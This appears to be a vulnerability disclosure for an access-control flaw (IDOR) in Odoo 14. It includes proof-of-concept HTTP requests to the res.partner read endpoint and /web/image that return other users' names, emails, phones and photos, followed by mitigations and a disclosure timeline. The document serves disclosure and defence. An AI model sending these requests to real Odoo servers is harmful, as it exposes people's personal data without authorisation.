 # Odoo 14 - Insecure Direct Object Reference (IDOR) / Broken Access Control

## 📌 CVE ID
- Pending assignment from MITRE

## 📌 Description
A vulnerability in **Odoo 14** allows authenticated low-privilege users (with no assigned roles) to access sensitive customer and employee data.  
The endpoints `/web/dataset/call_kw/res.partner/read` and `/web/image` do not enforce proper access control, resulting in unauthorized disclosure of Personally Identifiable Information (PII).

---

## 🎯 Affected Versions
- Odoo 14 (Community & Enterprise)  
- Other versions (15, 16, 17) not tested yet.  

---

## 🛠 Vulnerability Type
- Insecure Direct Object Reference (IDOR)  
- Broken Access Control  
- Sensitive Information Disclosure  

---

## ⚠️ Impact
- Unauthorized exposure of customer and employee data:
  - Full names  
  - Emails  
  - Phone numbers  
  - Job titles  
  - Company addresses  
  - Profile images (Base64 encoded)  
- Potential compliance violation (GDPR, CCPA).  
- Risk of further data mining.  

**CVSS v3.1 Vector (example):**  
`AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` → **Score: 7.5 (High)**  

---

## 🧪 Steps to Reproduce (PoC)

1. Login with a **basic user account** (no special roles).  
2. Intercept the following request in Burp Suite:

```http
POST /web/dataset/call_kw/res.partner/read HTTP/1.1
Host: target-odoo:8069
Content-Type: application/json
Cookie: session_id=<valid_session_id>

{
 "jsonrpc": "2.0",
 "method": "call",
 "params": {
   "args": [[39], ["id","name","email","phone","function","image_128"]],
   "model": "res.partner",
   "method": "read",
   "kwargs": {}
 },
 "id": 12345
}
```

3. Response returns details of another user:

```json
{
 "id": 39,
 "name": "Chester Reed",
 "email": "chester.reed79@example.com",
 "phone": "(979)-904-8902",
 "function": "Chief Executive Officer (CEO)",
 "image_128": "/9j/4AAQSkZJRgABAQEASABIAAD..."
}
```

4. Similarly, user images can be accessed directly:

```http
GET /web/image?model=res.users&field=image_128&id=8
```

→ Returns profile photo of another user.  

---

## 📷 Evidence
- Burp Suite requests & responses (screenshots attached).  
- Screenshots of Odoo frontend showing leaked records.  

### Screenshots
![Request 1](/evidence/Screenshot_2025-08-25_132025.png)  
![Request 2](/evidence/Screenshot_2025-08-25_132045.png)  
![Request 3](/evidence/Screenshot_2025-08-25_132147.png)  
![Request 4](/evidence/Screenshot_2025-08-25_132203.png)  
![Request 5](/evidence/Screenshot_2025-08-25_132300.png)  
![Request 6](/evidence/Screenshot_2025-08-25_132432.png)  
![Request 7](/evidence/Screenshot_2025-08-25_132456.png)  

---

## 🔒 Mitigation
- Enforce record rules on `res.partner` and `res.users` models.  
- Add access control checks before returning PII.  
- Restrict `/web/image` to authorized users only.  
- Ensure ORM respects ACL/Record Rules for all JSON-RPC endpoints.  

---

## 📅 Disclosure Timeline
- 2025-08-25: Vulnerability discovered on Odoo 14 demo.  
- [Date]: Contacted Odoo Security Team.  
- [Date]: No response received.  
- [Date]: Requesting CVE from MITRE.  

---

## 👤 Credits
- Researcher: **Abdulaziz Alanazi - Resilience**
